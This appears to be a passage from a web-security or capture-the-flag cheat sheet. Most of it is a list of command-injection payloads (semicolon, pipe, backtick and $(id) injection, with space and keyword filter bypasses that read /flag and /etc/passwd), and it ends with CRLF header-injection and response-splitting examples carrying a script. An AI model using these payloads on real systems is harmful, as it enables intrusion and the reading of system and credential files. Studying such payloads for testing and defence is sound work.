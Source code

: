 #### Cache Poisoning

#### Command Injection
- Basic
  - $ ping 127.0.0.1 `; id`
  - $ ping 127.0.0.1 `| id`
  - $ ping 127.0.0.1 `&& id`
  - $ ping '127.0.0.1`'; id #` ' 
  - $ ping "`$(id)`"
  - $ cat mewo.txt `$(id)`
  - $ cat mewo.txt `` `id` ``
  - Newline (0x0A, \n, %0A)
- Space Bypass
  - $ cat`<TAB>`/flag
  - $ cat\</flag
  - $ {cat,/flag}
  - $ cat$IFS/flag
  - $ X=$'cat\x20/flag'&&$X
- Keyword Bypass
  - $ cat /f'la'g
  - $ cat /f"la"g
  - $ cat /f\l\ag
  - $ cat /f\*
  - $ cat /f?a?
  - $ cat ${HOME:0:1}etc${HOME:0:1}passwd

#### CRLF Injection
- Inject `\r\n` to headers

  ```txt
  request("http://host/ HTTP/1.1\r\nHeader: xxx\r\nX:")
  -----------------------------------------------------
  GET / HTTP/1.1\r\n
  Header: xxx
  X:` HTTP/1.1\r\n
  Host: host\r\n
  ...
  ```

  ```txt
  ?redirect=http://example.com/%0d%0a%0d%0a...
  --------------------------------------------
  HTTP/1.1 302 Found
  Content-Length: 35\r\n
  Content-Type: text/html; charset=UTF-8\r\n
  ...
  Location: https://example.com\r\n
  \r\n
  <script>alert(1)</script>
  ...
  Server: Apache/2.4.41\r\n
  \r\n
  Redirecting to <a href="/">/</a> ...
  ```
